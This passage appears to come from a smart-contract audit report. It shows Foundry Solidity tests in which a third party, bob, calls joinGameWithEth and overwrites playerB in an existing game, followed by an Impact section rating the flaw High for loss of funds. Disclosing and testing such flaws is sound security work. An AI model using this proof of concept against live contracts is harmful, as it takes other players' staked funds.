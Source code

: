 ```solidity
        vm.stopPrank();

        // Verify bob's attack on playerB succeeded
        (, address storedPlayerB,,,,,,,,,,,,,, ) =
            game.games(gameId);
        assertEq(storedPlayerB, bob);
    }

    function testJoinGameWithEthOverridesOriginalPlayerB() public {
        // First create address for bob and fund bob 
        address bob = makeAddr("bob");
        vm.deal(bob, 10 ether);

        uint amount = 1 ether;
        vm.startPrank(playerA);
        token.approve(address(game), 1);
        gameId = game.createGameWithEth{value: amount}(TOTAL_TURNS, TIMEOUT);
        vm.stopPrank();
        vm.startPrank(playerB);
        game.joinGameWithEth{value:amount}(gameId);
        vm.stopPrank();

        // Now bob joins the game with token overriding playerB
        vm.startPrank(bob);
        game.joinGameWithEth{value: amount}(gameId);
        vm.stopPrank();

        // Verify bob's attack on playerB succeeded
        (, address storedPlayerB,,,,,,,,,,,,,, ) =
            game.games(gameId);
        assertEq(storedPlayerB, bob);
    }
```

## Impact

The impact of this vulnerability is High due to loss of funds and ease of execution:

* Any player who joins a game can have their position locked forever by another player.
* This vulnerability can be exploited repeatedly on the same game, causing multiple players to lose their stakes.
* This fundamentally breaks the game and creates a significant financial risk for any participant.
* The vulnerability can be weaponized by malicious users to undermine the whole system to become not viable anymore.

## Tools Used

* Foundry

## Recommendations
